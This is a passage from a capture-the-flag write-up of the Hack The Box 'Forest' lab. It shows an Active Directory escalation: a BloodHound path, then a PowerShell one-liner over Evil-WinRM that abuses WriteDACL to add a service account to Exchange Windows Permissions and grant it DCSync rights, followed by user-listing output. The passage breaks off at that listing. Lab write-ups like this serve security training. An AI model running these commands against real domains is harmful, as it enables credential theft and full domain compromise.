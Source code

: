 We'll start by marking the user as owned, then we'll find the shortest path from the owned user to High Value Targets
![BloodHound_Path](https://raw.githubusercontent.com/voided323/skills-github-pages/refs/heads/main/_posts/CTFs/Images/Forest_HTB/forest_bloodHound_Alfresco.png)

We'll use the svc-Alfresco to exploit the Write-DACL permissions over the Exchange Windows Permissions group. 
The service account is under the Account Operators group which has write permissions over the Exchange Windows Permissions group.

After reviewing the Windows Abuse information under BloodHound, we'll use the following one-liner to add ourselves to the vulnerable group:
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

We'll review the svc-alfresco user to confirm that they're added to the correct group:
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user svc-alfresco
User name                    svc-alfresco
Full Name                    svc-alfresco
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/25/2025 8:55:14 PM
Password expires             Never
Password changeable          1/26/2025 8:55:14 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/25/2025 8:51:30 PM

Logon hours allowed          All

Local Group Memberships
```